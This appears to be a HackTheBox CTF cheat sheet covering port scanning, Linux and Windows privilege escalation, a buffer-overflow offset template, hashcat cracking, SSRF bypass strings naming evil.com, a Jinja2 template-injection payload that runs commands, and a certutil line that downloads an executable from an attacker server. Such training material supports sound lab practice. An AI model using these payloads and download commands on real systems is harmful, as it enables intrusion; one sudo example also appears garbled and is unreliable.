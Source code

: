 # HTB Machine Mastery: Pro CTF Strategies

_Collection of unique tips, methodologies, and pro insights for dominating HackTheBox machines_

## 🔍 Reconnaissance Pro Tips

```bash
# Ultra-fast port scanning combo
sudo nmap -sS --min-rate 10000 --open -Pn -n -vvv -oG allports <IP> && grep open allports | awk '{print $2}' | cut -d/ -f1 | tr '\n' ',' | sed 's/,$//' | xargs sudo nmap -sCV -p
```

**Unique Approach**: 
- Always check for **alternate HTTP ports** (8080, 8443, 3000, etc.)
- For **UDP scans**, focus only on critical ports (DNS, SNMP, DHCP) to save time
- Use `curl -I http://<IP>` to check headers before full directory busting

## 🚪 Privilege Escalation Checklist

### Linux PrivEsc Shortcuts
1. **GTFOBins Quick Check**:
   ```bash
   find / -type f -perm -4000 -ls 2>/dev/null | awk '{print $11}' | xargs -I{} sh -c 'echo -n "{}: " && grep -m1 "{}" /usr/share/gtfobins/gtfobins.json 2>/dev/null || echo ""'
   ```
2. **Cron Job Hijacking**:
   ```bash
   cat /etc/crontab && ls -la /etc/cron* /var/spool/cron/crontabs
   ```
3. **SUDO Wildcards**:
   ```bash
   echo 'sudo -l' | sudo -S /bin/bash
   ```

### Windows PrivEsc Fast-Track
1. **AlwaysCheckThese**:
   ```powershell
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
   ```
2. **Quick Service Enum**:
   ```powershell
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
   ```
3. **Unquoted Path Magic**:
   ```powershell
   gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -like "* *"}
   ```

## � Binary Exploitation Cheat Sheet

```python
# Template for buffer overflow
from pwn import *

context.update(arch='i386', os='linux')
pattern = cyclic(1000)
io = process('./vuln')

io.sendline(pattern)
io.wait()
core = io.corefile
eip = core.eip
offset = cyclic_find(eip)
log.info(f"EIP offset: {offset}")
```

**Pro Tip**: Always check for:
- `checksec` output
- Hidden functions in Ghidra (look beyond `main()`)
- Integer overflows when buffer overflows aren't present

## 🔑 Password Cracking Strategies

```bash
# Smart rule-based attack
hashcat -m 1800 -a 0 -r /usr/share/hashcat/rules/best64.rule hash.txt rockyou.txt
```

**Unique Approach**:
- First try: Common passwords with year append (`Password2023!`)
- Second try: Capitalize first letter + special char (`Summer!`)
- Third try: Leet speak transformations (`P@ssw0rd`)

## 🌐 Web App Secrets

**Hidden Attack Vectors**:
1. **SSRF Bypasses**:
   ```
   http://127.0.0.1@evil.com
   http://0177.0.0.1 (octal IP)
   ```
2. **SSTI Payloads**:
   ```python
   {{7*7}} # Basic test
   {{config.__class__.__init__.__globals__['os'].popen('id').read()}} # Flask/Jinja2
   ```
3. **JWT Tricks**:
   ```bash
   jwt_tool <JWT> -T -v
   ```

## 📂 File Transfer Hacks

```bash
# Python3 HTTP server (works on most machines)
python3 -c "import http.server as s, socketserver as ss; ss.TCPServer(('', 8000), s.SimpleHTTPRequestHandler).serve_forever()"

# Windows one-liner download
certutil -urlcache -split -f http://yourserver.com/file.exe C:\Windows\Temp\file.exe
```

## 🎯 Pro Mindset Tips

1. **The 30-Minute Rule**: If stuck, document all findings and take a break
2. **Evidence Board Method**: Create a text file mapping all discovered info
3. **Vertical Enumeration**: When stuck, re-enumerate previous steps with new knowledge
4. **Machine Patterns**: HTB often reuses vulnerability patterns across machines

## 🛠️ Essential Tools Quick Reference

| Tool          | Pro Usage                                  |
|---------------|--------------------------------------------|
| `ffuf`        | `ffuf -u URL -w wordlist -H "Header: val"` |
| `linpeas`     | Always run with `-a` for full checks       |
| `pspy`        | Detect hidden cron jobs                    |
| `evil-winrm`  | `evil-winrm -i IP -u user -p pass`         |
| `chisel`      | Tunnel through firewalls                   |

## 📌 Final Advice
"Every machine teaches three lessons: 
1. What you know
2. What you thought you knew
3. What you need to learn next"
- _HTB Veteran_
